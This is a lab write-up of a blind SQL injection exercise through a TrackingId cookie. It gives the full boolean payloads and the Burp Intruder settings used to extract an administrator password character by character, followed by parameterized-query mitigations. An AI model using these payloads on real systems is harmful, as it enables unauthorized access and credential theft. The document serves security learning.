

# Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `TrackingId` cookie parameter
- **Vulnerability Type**: T1190.001 - SQL Injection: Blind Conditional Response (CWE-89)
- **Security Flaws:**
    - User input is embedded directly into SQL queries
    - Application responds differently based on query results

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified tracking cookie as potential injection point
- Performed systematic input validation testing

**Step 1: Testing Boolean Conditions**

Injected a single quote:
```sql
'
```
Response: HTTP/2 200 OK (no "Welcome back" message)

This indicates the input is being interpreted as part of a SQL string literal.

Injected escaped quote:
```sql
''
```
Response: HTTP/2 200 OK (no "Welcome back" message)

This properly closes the string literal, indicating string-based injection is possible.

**Step 2: Verifying Blind Injection**

Tested boolean conditions:
```sql
' AND 1=1--
```
Response: HTTP/2 200 OK with "Welcome back" message

**If the backend SQL query is:**
```sql
SELECT * FROM tracking WHERE id = 'abc123';
```

**After injection, the Tracking ID becomes:**
```http
Cookie: TrackingId=abc123' AND 1=1--
```

**The resulting backend SQL query becomes:**
```sql
SELECT * FROM tracking WHERE id = 'abc123' AND 1=1--';
```

Since the injected expression `1=1` is always true, the query executes successfully and returns a "Welcome back" message.

```sql
' AND 1=2--
```
Response: HTTP/2 200 OK without "Welcome back" message

This confirms that the application responds differently based on boolean conditions in the injected payload, indicating blind SQL injection vulnerability.

**Step 3: Verifying Users Table**

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Response: HTTP/2 200 OK with "Welcome back" message

This confirms the existence of a `users` table in the database.

**Note:** `LIMIT 1` ensures that the subquery returns exactly one row. Without LIMIT, the subquery may return multiple rows, which causes an error in scalar subquery context.

**Note:** No comment sequence (`--`) is needed because:
- The injected value is already inside a string literal
- The rest of the query continues cleanly after the injection
- However, `' AND (SELECT 'a' FROM users LIMIT 1)='a'--` also works

**Step 4: Verifying Administrator Username**

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Response: HTTP/2 200 OK with "Welcome back" message

This confirms that a user named `administrator` exists.

**Note:** `' AND (SELECT username FROM users WHERE username='administrator')='administrator` will also work perfectly.

```sql
' AND (SELECT 'a' FROM users WHERE username='administratorhjdf')='a
```
Response: HTTP/2 200 OK without "Welcome back" message

This did not return a "Welcome back" message as expected as there is no user named `administratorhjdf`.

**Step 5: Determining Password Length**

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried increasing values to identify the password length until the query returned a "Welcome back" message:

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```
Response: HTTP/2 200 OK with "Welcome back" message

This confirms the password is exactly 20 characters long.

**Note:** `' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator` will also work perfectly.

**Alternative Method - Using Intruder:**
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Send this request to Intruder. In Burp Intruder, select `1` and click the **Add §** button, then configure:

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a
```

Payload type: Numbers
Payload: 1-40
Grep-Match: Welcome back


This will give a "Welcome back" message until 19, indicating the password length is 20.

**Step 6: Extracting Password Using Intruder**

**Sniper Attack Method:**
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

**Explanation:**
- `SUBSTRING(string_expression, start_position, length)` is a SQL function used to extract part of a string
- `password` is the string to extract from
- Start at position `1` (SQL uses 1-based indexing)
- Extract `1` character
- So this returns the first character of the password field

**Payload tab configuration:**
- Payload type: Simple list
- Payload set: a-z and 0-9 (assuming no uppercase letters)
- Grep-Match (Settings): Welcome back


This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.

Repeated the process for the second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character of the password.

Repeated the process for all 20 characters to retrieve the complete password.

**Cluster Bomb Attack Method:**
```sql
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```



Payload for position (§1§): 1-20
Payload for character (§a§): a-z and 0-9
Grep-Match: Welcome back


This method retrieves all 20 characters at once, making the process simpler but requiring 720 combinations which takes hours with the community edition of Burp Suite.

Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Application responds differently based on query results
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked character-by-character |
| Information Disclosure | Medium – Database structure partially revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Insecure code (Python):
```py
tracking_id = request.cookies.get('TrackingId')
query = "SELECT * FROM tracking WHERE id = '" + tracking_id + "'"
cursor.execute(query)  # Vulnerable to SQL injection
```

Safe version using prepared statements (Python sqlite3):
```py
query = "SELECT * FROM tracking WHERE id = ?"
cursor.execute(query, (tracking_id,))
```

`?` is a parameter placeholder. It tells the database, "Expect a value here." The value is safely passed as a separate argument to `cursor.execute()`. This prevents it from being executed as SQL. Some DBs like MySQL or Oracle use `%s` or `$1` instead. Click [here](./01-sqli-where-clause.md#notes) for more info.

- Restrict database permissions using the principle of least privilege.

- Implement consistent response handling that does not reveal information about query execution results.

---

## Reflection

This lab demonstrated how blind SQL injection with conditional responses can be used to extract sensitive data through systematic boolean testing. The `SUBSTRING` function proved highly effective in extracting data character-by-character, while the Cluster Bomb attack enabled bulk extraction. Learned the importance of understanding application response patterns and leveraging different Intruder attack types for efficient data extraction.

---

## Notes

1. Testing with `'` and `''` helps determine whether input is placed within a SQL string and if it's properly escaped. Testing `'` and `''`, both do not give a "Welcome back" message.

2. In GET/POST parameter injection, your input often breaks the SQL query unless it's followed by a comment sequence (`--` or `#`) to ignore the rest of the query.

3. In Cookie-based injection (like TrackingId), the input may already be inside a quoted string, so no comment is needed.

Example:
A payload like `' AND '1'='1` works in Tracking ID because the injection point is within a **SQL string literal**. The backend query likely includes quotes already, so your input completes the expression cleanly. Adding or mismatching quotes might instead break the query.

4. A Tracking ID is typically used for:
- Analytics (e.g., counting visits)
- A/B testing or content personalization
- Logging user activity or session tracking on the server
It's a way to identify users or sessions without authentication, often stored in cookies.

5. `request.cookies` is a dictionary-like object in Flask. `tracking_id = request.cookies['TrackingId']` can raise `KeyError` if cookie is missing.	

Use `tracking_id = request.cookies.get('TrackingId', '')` instead.

**Dictionary Access vs Method Calls:**
- `[]` is used for direct dictionary access: `request.cookies['TrackingId']` - raises `KeyError` if key doesn't exist
- `()` is used for method calls: `request.cookies.get('TrackingId', '')` - returns default value if key doesn't exist

This says:
- "Try to get the cookie called 'TrackingId', but if it's missing, just give me an empty string ('') instead — and don't crash."
- The `.get()` method is like asking nicely and giving it a backup plan.

If your app crashes with an error like `KeyError`, it can:
- Expose internal details (like error messages) → which attackers can use.
- Disrupt user sessions or behavior.
- Cause denial of service if attackers flood the app with invalid inputs.

6. `tracking_id = request.cookies.get('TrackingId')` is also safe, if you handle `None` correctly later in your code.

Example:
```py
tracking_id = request.cookies.get('TrackingId')
if tracking_id is None:
    tracking_id = 'default'
```